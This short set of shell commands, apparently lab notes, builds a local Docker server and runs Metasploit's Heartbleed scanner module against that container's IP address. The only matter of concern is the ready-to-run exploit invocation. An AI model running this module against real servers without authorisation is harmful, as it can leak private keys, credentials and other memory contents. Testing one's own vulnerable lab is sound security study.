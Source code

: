 docker build -t server .

docker run -d -p 8443:443 server

docker run --rm -it -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit


docker ps

docker inspect <container-id> | grep IPAddress

msfconsole -q

use auxiliary/scanner/ssl/openssl_heartbleed

set RHOSTS <site-ip>

set VERBOSE true

exploit